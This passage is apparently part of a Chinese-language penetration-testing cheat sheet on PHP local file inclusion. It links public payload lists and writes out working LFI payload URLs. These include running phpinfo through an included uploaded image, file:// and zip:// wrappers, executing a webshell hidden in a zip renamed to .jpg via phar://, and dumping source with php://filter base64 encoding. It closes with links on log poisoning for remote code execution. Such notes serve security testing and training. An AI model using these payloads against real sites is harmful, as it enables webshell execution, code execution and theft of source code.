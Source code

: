**lfi payload**
- https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders
- https://github.com/infosec-au/fuzzdb/blob/master/attack-payloads/rfi/rfi.txt

**几种利用方法**
- 常规利用

    `Payload: http://www.test.com/test.php?file=upload/hourse.jpg&x=phpinfo()`

- 文件协议读取

    其前提是得知道网站应用的绝对路径(物理路径):

    `Payload: http://www.test.com/test.php?file=file://D:/Server/htdocs/test/upload/hourse.jpg&x=phpinfo()`

    结果和上面一样,只是地址栏链接不一样.

- 压缩包文件读取

    依然需要知道压缩包文件的绝对路径

    `Payload: http://www.test.com/test.php?file=zip://D:/Server/htdocs/test/upload/shell.zip%23shell.php&x=phpinfo())`

- phar:// 相对路径运行 PHP 文件

    当我们想要运行自己的 PHP 文件,该咋做呐？通过文件包含(include,require 这类函数),首先构造一个这样的文件,将 webshell.php 添加到压缩文件 .zip,然后将压缩包后缀名改为 .jpg 反正合法的文件后缀即可(一般的操作是这样的,当只能上传图片的时候),最后使用 phar:// 按照相对路径读取并执行文件.

    `Payload:http://www.test.php?file=phar://upload/shell.jpg/shell.php?x=phpinfo()`

- 读取源码

    当我们没法儿上传文件,但是又想读取文件的源码来寻找别的漏洞从而进一步利用该怎么做呐？同样的利用 php://filter/ 协议可以实现,要注意的是,因为编码问题,一般我们会将读取的文件先 Base64 编码一下输出:

    `Payload:http://www.test.com/test.php?file=php://filter/read=convert.base64-encode/resource=upload/shell.php`

### 日志中毒攻击

`log poisoning`

**相关文章**
- [RCE with LFI and SSH Log Poisoning](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/)
- [Apache Log Poisoning through LFI](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)
- [From Local File Inclusion to Remote Code Execution - Part 1 | Outpost 24 blog](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)
- [SMTP Log Poisioning through LFI to Remote Code Execution](https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/)

---

## 文件解析
